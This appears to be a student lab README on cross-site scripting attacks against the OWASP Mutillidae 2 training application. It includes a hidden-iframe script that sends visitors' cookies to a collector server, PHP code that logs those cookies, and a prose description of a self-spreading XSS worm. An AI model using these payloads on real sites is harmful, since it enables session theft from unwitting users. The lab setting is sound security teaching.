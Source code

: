 # XSS-Attack
Cross-Site Scripting Attack

#### Setup

We are going to work on a publicly available open-source vulnerable web application: OWASP Mutillidae 2. This application contains various web vulnerabilities
including XSS attack.  It is based on PHP and MySQL and part of the OWASP
(Open Web Application Security Project). You need to download OWASP Virtual
Machine to obtain OWASP Mutillidae 2. The virtual machine can be downloaded
from [here](https://sourceforge.net/projects/owaspbwa/files/1.2/) and OWASP Mutillidae 2 can be run from any browser in Windows, Mac
or Linux

#### Alice adds to her blog an entry that contains a JavaScript code that shows
their cookies to the users who visit her blog
Here we added simple JavaScript code to print cookie of user who have just entered to see blog
posts of Alice.

#### Tcp and Web Server

We first tried to write simple tcp server in Java. We have used Server Socket to listen port and
accept data from sender. Operating System doesn't allow us to listen 6000 port. We have changed
that to 6001 in Java.
Buffered Reader was used to get input data from sender then File Writer writes data to cookies text
file. The second parameter of File Writer enables append function. We set true to append string
repeatedly to an existing file. There is a header list for header part of message and body string for
the body part. Data comes in two part separated by new line. If line is empty that means header part
of message has been sent and next part will be the body part of the message. Also all of these were
written in an infinite loop. That means server keeps accepting data until user closes program.

Web Server part of task actually was a little hard to implement in PHP than Java. First we have set
time limit to zero. Time limit is the number of seconds a script is allowed to run. Default limit is 30
seconds. Zero means no time limit specified. We have create socket using socket_create function.
AF_INET is IPV4 Internet based protocols. TCP and UDP are common protocols of this protocol
family. SOCK_STREAM provides reliable and full-duplex byte streams. TCP protocol is based on
this socket type. The last parameter in socket_create function is protocol. If the desired protocol is
TCP, or UDP the SOL_TCP and SOL_UDP can also be used. Socket_bind used to bind host and
port to socket. Socket_listen function has been used to listen incoming connections on socket.
Second parameter is backlog parameter that determines maximum of incoming connections will be
queued for processing. We have set this number to 3. If a request arrives with the queue full then
client may receive error message but if the protocol supports (underlying) retransmission, request
will be ignored so that retries may succeed. Socket_accept accepts connection on a socket. If there
are multiple connections on queue first connection on the queue will be accepted. Socket_read reads
data from incoming connection and returns data as a string. Second parameter determines length of
data that will be read by socket_read function. Trim function return a string that whitespace stripped
from beginning and end of string. Trim function also can strip characters such a tab, newline etc.
The last function is socket_close which closes the opened socket. (We cannot put it right after an
infinite loop in Java) We had a problem with printing output to web page as a table. So we have just
printed output to terminal. We could not receive data from incoming connection.

We have printed received data to terminal. Outputs of users who viewed Alice's blog.

#### Another PHP WebServer

Another way of using php webserver is using iframes instead of sockets. Attacker can post a
javascript code which creates an iframe, with source of our webserver. It can pass parameters (in
this scenario, cookies of the visitor) to webserver and if webserver saves them in a file, we can
effectively listen and log cookies of users at target webserver.

Example JS code which creates hidden iframe:

```
<script>document.write(\'<iframe src="http://localhost:8888/xss/index.php?
q=\'+escape(document.cookie)+\'" height=0 width=0 />\');</script>
```

And example php server, which collects and saves cookies:

```
<?php
$cookie = $_GET['q'];
$myfile = file_put_contents('cookies.txt', $cookie.PHP_EOL , FILE_APPEND);
?>
```

#### JavaScript (XSS Worm)

In this part, we have created an XSS Worm. Which means that, after first attacker posted it's
code, it affects any user that visited attacker's blog, and makes them another infecter.

It works like this:

Alice (Attacker), posts malicious code.
Bob (Innocent), visits Alice's blog and gets infected.
Dan (Innocent), visits Bob's (infected) blog and gets infected.
Eve (Innocent), visits Dan's (infected) blog and gets infected, etc.

Malicious code contains 2 parts.

First part, fetches malicious code from another webserver.
Second part, finds victim's session id and makes a request to “add-to-your-blog” page, using
victim's cookie. By this way, victim posts malicious code to his/her own blog.

Code at the webserver contains the same code which attacker used at first. Which means,
every user just replicates attacker's code to infect other visitors.

To make requests, we used xmlHttpRequest. To make them synchronous, code waits for the
first request (fetch malicious code from server), then makes second request (add malicious
code to target site).

To avoid conflicts, we added this header to our webserver.

`header("Access-Control-Allow-Origin: *");`

This code makes possible to send requests to the server from another domains.

